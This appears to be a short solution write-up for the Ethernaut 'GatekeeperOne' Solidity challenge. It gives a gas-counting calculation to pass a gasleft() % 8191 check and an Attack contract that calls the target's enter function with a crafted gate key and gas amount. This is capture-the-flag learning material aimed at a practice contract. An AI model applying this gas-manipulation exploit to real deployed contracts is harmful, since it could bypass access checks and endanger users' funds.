



## Description
Counted gasleft in debugger at the beginning of the call - gasleft during the gasleft() push to stack on line require(gasleft() % 8191 == 0); = 256
```
1.(bool succsess, ) = address(gatekeeperOne).call{gas:gasvalue}((abi.encodeWithSignature("enter(bytes8)", _gateKey)));
```
8191 * 6 = 49146 + 256


with _gateKey type casting
```
contract Attack{
    GatekeeperOne public gatekeeperOne;

    constructor(address _gatekeeperOne){
        gatekeeperOne = GatekeeperOne(_gatekeeperOne);
    }

    function attack(bytes8 _gateKey,uint gasvalue) public returns(bool) {
        (bool succsess, ) = address(gatekeeperOne).call{gas:gasvalue}((abi.encodeWithSignature("enter(bytes8)", _gateKey)));
        return succsess;
    }
}
```